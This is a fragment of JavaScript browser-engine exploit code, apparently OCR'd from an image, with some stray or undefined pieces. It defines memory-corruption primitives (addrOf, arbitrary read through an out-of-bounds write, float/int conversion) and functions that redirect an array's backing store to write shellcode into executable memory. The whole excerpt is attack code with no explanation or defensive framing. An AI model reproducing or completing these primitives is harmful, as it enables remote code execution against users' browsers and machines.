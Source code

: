 ```html
}

function ftoi(f) {
  dblArr[0] = f;
  return bigIntView[0];
}


dblArr[0] = addrs[0];
dblArr[1] = addrs[1];

function addrOf(obj) {
  b[0] = obj;
  let addrs = oobRead();
  dblArr[0] = addrs[0];
  return intView[1]; 
}

function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));
  return writeArr[0];
}

function arbRead1(addr) {
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, addr));
  return writeArr[0];
}

function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

function writeShellCode1(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
 
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, intArrAddr + 0x20));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

var other_method = false;
var instanceAddr = addrOf(instance);
var elementsAddr = ftoi32(addrs[1])[0];

if((elementsAddr & 0xFFFF) == 0x222D) {
  other_method = true;
  elementsAddr = ftoi32(addrs[1])[1];
}
```